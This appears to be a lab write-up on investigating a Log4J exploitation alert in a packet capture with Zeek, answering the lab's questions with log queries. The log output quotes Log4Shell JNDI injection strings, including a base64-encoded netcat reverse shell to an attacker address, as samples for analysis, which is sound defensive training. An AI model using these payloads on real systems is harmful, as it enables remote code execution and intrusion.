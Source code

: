 # Log4J

An alert triggered: `Log4J Exploitation Attempt`.

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive. 

## Questions

Investigate the `log4shell.pcapng` file with `detection-log4j.zeek` script. 

    zeek -C -r log4shell.pcapng detection-log4j.zeek

Investigate the `signature.log` file. **What is the number of signature hits?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat signatures.log | zeek-cut uid | wc -l
3
```

Investigate the `http.log` file. **Which tool is used for scanning?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut user_agent
...
Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
```

Investigate the `http.log` file. **What is the extension of the exploit file?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat http.log | zeek-cut uri | uniq
/
/ExploitQ8v7ygBW4i.class
/
/ExploitSMMZvT8GXL.class
/
/Exploit6HHc3BcVzI.class
/
testing1
/testing1
/testing123
/
```

Investigate the `log4j.log` file. Decode the base64 commands. **What is the name of the created file?**

```text
ubuntu@ip-10-10-177-209:~/Desktop/Exercise-Files/log4j$ cat log4j.log | zeek-cut value | uniq
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}
${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==}
${jndi:ldap://127.0.0.1:1389}
${jndi:ldap://192.168.56.102}
${jndi:ldap://192.168.56.102:389}
${jndi:ldap://192.168.56.102:389/test}
${jndi:ldap://192.168.56.102:389}
```

| ![Zeek](/_static/images/zeek-logj4-pwnd.png)
|:--:|
| `pwned` |

That's it.
